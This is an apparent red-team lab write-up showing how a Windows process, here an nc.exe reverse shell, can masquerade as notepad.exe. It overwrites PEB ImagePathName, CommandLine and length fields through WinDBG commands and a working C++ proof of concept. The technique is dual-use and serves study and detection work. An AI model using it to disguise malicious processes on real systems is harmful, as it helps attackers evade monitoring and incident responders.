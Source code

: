 ```yaml
---
description: >-
  Understanding how malicious binaries can maquerade as any legitimate Windows
  binary
---
```


# Masquerading Processes in Userland with \_PEB

In this short lab I am going to use a WinDBG to make my malicious program pretend to be a notepad \(hence masquerading\) when inspecting system's running processes with tools like Sysinternals ProcExplorer and similar. Note that his is not a code injection exercise. 

This is possible, because the information about the process \(commandline arguments, image location, loaded modules, etc\) are stored in Process Environment Block \(PEB\). PEB has a corresponding memory structure called `_PEB` which is accessible & writeable \(given right privileges - `SeDebugPrivilege`\) from the userland.

This lab builds on the previous lab:

{% page-ref page="../memory-forensics/process-environment-block.md" %}

## Overview

For this demo, my malicious binary is going to be an `nc.exe` -  a rudimentary netcat reverse shell spawned by cmd.exe and the PID of `4620`:

![](../.gitbook/assets/malicious-process.PNG)

Using WinDBG, we will make the nc.exe looks like notepad.exe - this will be reflected in the `Path` field and the binary icon like so - note the final result below - it is the same nc.exe process \(PID 4620\) only this time masquerading as a notepad.exe:

![](../.gitbook/assets/masquerade-5.png)

## Execution

Let's first look at the \_PEB structure for the nc.exe process:

```csharp
dt _peb @$peb
```

![](../.gitbook/assets/masquerade-13.png)

Note that at the offset `0x020` of the PEB, there is another structure which is very interesting to us -  `_RTL_USER_PROCESS_PARAMETERS`, which contains the process information. Let's inspect it further:

```csharp
dt _RTL_USER_PROCESS_PARAMETERS 0x00000000`005e1f
```

![](../.gitbook/assets/masquerade-12.png)

The offset `0x060` of `_RTL_USER_PROCESS_PARAMETERS` is also of interest to us - it points to a structure `_UNICODE_STRING` that contains the `ImagePathName` field which signifies the name/full path to our malicious binary nc.exe.

Let's inspect that structure:

```text
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-10.png)

`_UNICODE_STRING` structure describes the lenght of the string and also points to the actual memory location ``0x00000000`005e280e`` that contains the string to our malicious binary.

Let's confirm the string location by dumping the bytes at ``0x00000000`005e280e`` by issuing:

```text
0:002> du 0x00000000`005e280e
00000000`005e280e  "C:\tools\nc.exe"
```

![](../.gitbook/assets/masquerade-9.png)

Now that we have confirmed that ``0x00000000`005e280e`` indeed contains a path to the binarry, let's try to write a new string to that memory address. Let's try swapping the nc.exe with a path to the notepad.exe binary:

```text
eu 0x00000000`005e280e "C:\\Windows\\System32\\notepad.exe"
```

![](../.gitbook/assets/masquerade-1.png)

{% hint style="warning" %}
If you are following along, do not forget to add NULL byte at the end of your new string to terminate it:

```text
eb 0x00000000`005e280e+3d 0x0
```
{% endhint %}

Let's check the `_UNICODE_STRING` structure again to see if the changes took effect:

```text
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-4.png)

We can see that our string is getting truncated. This is because the Lenght value in the `_UNICODE_STRING` structure is set to 0x1e \(30 decimal\) which equals to 15 unicode characters:

![](../.gitbook/assets/masquerade-3.png)

Let's increase that value to 0x3e to accomodate our longer string pointing to notepad.exe binary and check the structure again:

```text
eb 0x00000000`005e1f60+60 3e
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

The string `Buffer` is no longer getting truncated:

![](../.gitbook/assets/masquerade-2.png)

For the sake of this exercise, we can clear out the commandline arguments like so:

```text
eb 0x00000000`005e1f60+70 0x0
```

The offset of `0x70` is concerned with a `Buffer` length in another `_UNICODE_STRING` structure holding a string of a commandline arguments the process was launched. 

Now if we inspect the process using Process Explorer, we can see that our nc.exe now look slike a notepad:

![](../.gitbook/assets/masquerade-14.png)

## A simple PoC

As part of this simple lab, I wanted to write a simple C++ proof of concept that would make the running program masquerade itself as a notepad. Here is the code:

{% code-tabs %}
{% code-tabs-item title="pebmasquerade.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"
#include "winternl.h"

typedef NTSTATUS(*MYPROC) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{
	HANDLE h = GetCurrentProcess();
	PROCESS_BASIC_INFORMATION ProcessInformation;
	ULONG lenght = 0;
	HINSTANCE ntdll;
	MYPROC GetProcessInformation;
	wchar_t commandline[] = L"C:\\windows\\system32\\notepad.exe";
	ntdll = LoadLibrary(TEXT("Ntdll.dll"));
	GetProcessInformation = (MYPROC)GetProcAddress(ntdll, "NtQueryInformationProcess");
	(GetProcessInformation)(h, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Buffer = commandline;
	ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = commandline;

	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

..and here is the compiled running program being inspected with ProcExplorer - we can see that the masquerading is achieved successfully:

![](../.gitbook/assets/screenshot-from-2018-10-23-23-36-52.png)

## Observations

Switchingf back to the nc.exe, if we check the `!peb` data, we can see a notepad.exe is being shown in the  `Ldr.InMemoryOrderModuleList` memory structure - pretty cool:

![](../.gitbook/assets/screenshot-from-2018-10-23-19-47-59.png)

Note that even though it shows in the loaded modules that notepad.exe was loaded, it still does not mean that there was an actual notepad.exe process created and sysmon logs prove this:

![](../.gitbook/assets/screenshot-from-2018-10-23-20-02-49.png)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/nf-winternl-ntqueryinformationprocess\#return-value" %}

